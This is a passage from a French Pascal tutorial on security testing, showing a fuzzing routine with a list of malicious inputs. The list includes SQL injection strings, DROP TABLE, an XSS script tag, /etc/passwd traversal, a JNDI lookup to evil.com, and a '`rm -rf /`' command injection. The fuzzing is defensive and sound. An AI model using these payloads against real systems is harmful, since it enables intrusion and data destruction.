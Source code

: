 ```pascal
// Utilisation
begin
  ScanFile('mainunit.pas');
end.
```

### 2. Analyse dynamique

**Fuzzing basique** :
```pascal
type
  TFuzzTest = record
    Name: string;
    TestFunction: function(const Input: string): Boolean;
  end;

function TestSQLInjection(const Input: string): Boolean;
var
  Query: TSQLQuery;
begin
  Result := True;
  try
    Query := TSQLQuery.Create(nil);
    try
      Query.SQL.Text := 'SELECT * FROM test WHERE value = :value';
      Query.ParamByName('value').AsString := Input;
      Query.Open;
    finally
      Query.Free;
    end;
  except
    on E: Exception do
    begin
      WriteLn('Vulnerability found with input: ', Input);
      WriteLn('Error: ', E.Message);
      Result := False;
    end;
  end;
end;

procedure RunFuzzTests;
const
  MALICIOUS_INPUTS: array[0..9] of string = (
    ''' OR ''1''=''1',
    '; DROP TABLE users--',
    '<script>alert("XSS")</script>',
    '../../../etc/passwd',
    '${jndi:ldap://evil.com/a}',
    '%00',
    '../../',
    '`rm -rf /`',
    'admin'' OR 1=1--',
    'UNION SELECT * FROM passwords'
  );
var
  i: Integer;
  PassCount, FailCount: Integer;
begin
  PassCount := 0;
  FailCount := 0;

  WriteLn('=== Fuzz Testing ===');

```